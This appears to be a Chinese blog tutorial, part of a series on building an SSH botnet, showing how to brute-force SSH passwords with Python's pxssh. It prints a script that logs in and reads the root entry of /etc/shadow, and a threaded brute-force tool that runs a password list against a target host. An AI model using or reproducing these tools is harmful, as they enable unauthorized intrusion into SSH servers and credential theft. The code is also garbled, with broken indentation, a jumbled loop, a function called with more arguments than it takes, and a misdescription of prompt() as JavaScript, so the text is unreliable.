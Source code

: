 # 原创
：  【Python脚本进阶】2.2、构建一个SSH僵尸网络（中）：用Pxssh暴力破解SSH密码

# 【Python脚本进阶】2.2、构建一个SSH僵尸网络（中）：用Pxssh暴力破解SSH密码

**目录**

[一、Pxssh暴力破解SSH密码](#Pxssh%E6%9A%B4%E5%8A%9B%E7%A0%B4%E8%A7%A3SSH%E5%AF%86%E7%A0%81)

[1.1、函数：](#%E5%87%BD%E6%95%B0%EF%BC%9A)

[1.2、使用Pxssh简化](#%C2%A0%E4%BD%BF%E7%94%A8Pxssh%E7%AE%80%E5%8C%96)

[1.3、函数：](#%E5%87%BD%E6%95%B0%EF%BC%9A)

[1.4、自动化](#%C2%A0%E8%87%AA%E5%8A%A8%E5%8C%96)

---


## 一、Pxssh暴力破解SSH密码

> 
<h3>1.1、函数：</h3>
prompt():是javascript语言中的一个方法，主要用处是显示提示对话框
pxssh模块用于在python中ssh远程连接,执行命令,返回结果,但注意不支持Windows系统


> 
<h3>1.2、使用Pxssh简化</h3>
用Pxssh 进一步简化它,Pxssb 是一个包含了pexpect 库的专用脚本， 它能用预先写好的login(）、logout()和prompt()等函数直接与SSH 进行交互。使用Pxssh可以将上个脚本简化成
<pre><code>import pxssh


def send_command(s, cmd):
    s.sendline(cmd)
    s.prompt()
    print(s.before)

def connect(host, user, password):
    try:
        s = pxssh.pxssh()
        s.login( host, user, password )
        return s
    except:
        print('[-] Error Connecting')
        exit( 0 )
s = connect ('127.0.0.1', 'root', 'toor')
send_command(s, 'cat /etc/shadow | grep root')</code></pre>


> 
<h3>1.3、函数：</h3>
BoundedSemaphore(n)：同一时刻最多允许n个线程访问特定资源
global：全局的
release：释放
add_option 添加设置选项
acquire方法是Python锁类，Python中线程模块的Lock类的内置方法
Thread是程序中的执行线程


> 
<h3>1.4、自动化</h3>
再做些修改就能使脚本自动执行暴力破解SSH口令的任务。除增加了一些参数解析代码来读取主机名、用户名和存有待尝试的密码的文件外， 只需对connect()函数稍做修改。
<hr/>
如果login()函数执行成功， 并且没有抛出异常， 将打印一个消息， 表明密码已被找到并把表示密码已被找到的全局布尔值设为true。否则， 将捕获该异常。如果异常显示密码被拒绝， 知道这个密码不对， 让函数返回即可。但是，如果异常显示socket 为“ read_nonblocking", 可能是SSH服务器被大量的连接刷爆了， 可以稍等片刻后用相同的密码再试一次。此外， 如果该异常显示pxssh 命令提示符提取困难， 也应等待一会儿， 然后让它再试一次。
<hr/>
在connect()函数的参数里有一个布尔量release。由于connect()可以递归地调用另一个connect(), 必须让只有不是由connect()递归调用的connect()函数才能够释放connection_lock 信号。

<pre><code>import pxssh
import optparse
import time


from threading import *
maxConnections = 5
connection_lock = BoundedSemaphore(value=maxConnections)
Found = False
Fails = 0
def connect(host, user, password):
    global Found
    global Fails
    try:
        s = pxssh.pxssh()
        s.login(host, user, password)
        print('[+] Password Found: ' + password)
    Found = True
    except Exception as e:
        if 'read_nonblocking' in str(e):
            Fails += 1
            time.sleep( 5 )
            connect(host, user, password, False)
        elif 'synchronize with original prompt' in str(e):
            time.sleep( 1 )
            connect( host, user, password, False )
        finally:
        if release: connection_lock.release()

def main():
    parser = optparse.OptionParser( 'usage %prog ' + '-H &lt;target host&gt; -u &lt;user&gt; -F &lt;password list&gt;' )
    parser.add_option( '-H', dest= ' tgtHost', type='string', help=' specify target host'）
    parser.add_option( '-F', dest= ' passwdFile', type='string', help='specify password file')
    parser.add_option( '-u', dest='user'， type = 'string', help = 'specify the user')
    (options, args) = parser.parse_args()
    host = options.tgtHost
    passwdFile = options.passwdFile
    user= options.user
    if host== None or passwdFile == None or user == None:
        print(parser.usage)
        exit(0)
    user = options.user
    fn = open( passwdFile,'r')
    user = options.user
    for line in fn.readlines():
    user = options.user
    if Found:
        print("[*] Exiting: Password Found")
        exit(0)
        if Fails &gt; 5:
        print("[!] Exiting: Too Many Socket Timeouts")
        exit(0)
    connection_lock.acquire()
        password = line.strip('\r').strip('\n')
    print("[-] Testing: " + str(password))
        t = Thread(target=connect, args=(host, user, password, True))
        child = t.start()


if __name__ == '__main__':
    main()</code></pre>


---

